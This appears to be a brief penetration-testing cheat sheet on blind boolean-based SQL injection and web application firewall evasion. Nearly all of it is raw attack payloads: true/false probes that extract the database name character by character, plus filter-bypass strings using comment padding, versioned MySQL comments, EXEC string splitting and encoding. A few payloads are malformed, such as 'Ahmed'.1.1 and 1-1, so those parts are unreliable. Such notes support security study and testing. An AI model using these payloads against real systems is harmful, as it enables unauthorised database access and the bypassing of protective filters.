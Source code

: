 # Blind Boolean based SQL & Evasion Techniques

## Blind Boolean based SQL

* 11' and 'N' = 'N TRUE
* 11' and 'N'= 'A False
* substring('Ahmed'.1.1)='A' => True

```
select substring(database(),1,1)='d'
```

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Evasion Techniques

* WAF
  * ' or 1-1 --+&#x20;
    * or 2>1
    * 'or 'hacktor'>'a'
  * '/\*!<mark style="color:red;">**12345**</mark>order\*/by 7#
  * url encode,hex etc..
  * EXEC('sele','ct')
  * "UNION       SELECT"
  * '/\*\***/or/\*\*/1/\*\*/=/\*\*/1/\*\*/**
  * **Hackbar => Cyberfox**
